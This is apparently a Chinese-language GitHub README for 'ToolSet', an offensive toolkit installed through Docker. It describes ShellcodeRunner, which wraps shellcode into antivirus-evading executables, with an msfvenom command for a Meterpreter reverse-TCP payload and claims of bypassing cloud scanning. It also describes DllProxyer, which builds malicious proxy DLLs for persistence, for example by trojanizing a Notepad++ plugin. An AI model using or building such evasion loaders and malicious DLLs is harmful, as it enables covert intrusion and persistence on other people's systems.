 # ToolSet

一个小小的工具集

**目前已经查杀，后续再更新**

## 安装

```shell
curl -o docker-compose.yml https://raw.githubusercontent.com/akkuman/toolset/master/docker-compose.yml
sudo docker-compose pull && sudo docker-compose up -d
```

访问 `http://127.0.0.1:8080/swagger/index.html` 即可查看接口文档


## 工具列表

### ShellcodeRunner

#### 介绍

一个shellcode包装器，可根据提供的shellcode raw[`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=4444 -f raw > ~/shell.raw`]文件
生成免杀的执行器

#### 国际惯例

![ShellcodeRunner静态bypass.webp](pics/ShellcodeRunner-static-bypassAV.webp)
![ShellcodeRunner动态bypass.webp](pics/ShellcodeRunner-dynamic-bypassAV.webp)

##### 云查杀测试

一天过去了，还能冲，应该bypass了云查杀

![一天后冲图.webp](pics/ShellcodeRunner-static-rescan-after-one-day.webp)

### DllProxyer

#### 介绍

依旧是一个shellcode包装器，但是关注点不同，此工具根据用户所提供的dll和shellcode，生成一个恶意转发dll

##### 用途和场景

一般可用在一些维权和白利用的场景上，比如目标用户使用 notepad++ 频率较高，则我们可以把 notepad++ 里面的某个插件的dll取出来做成恶意dll放入


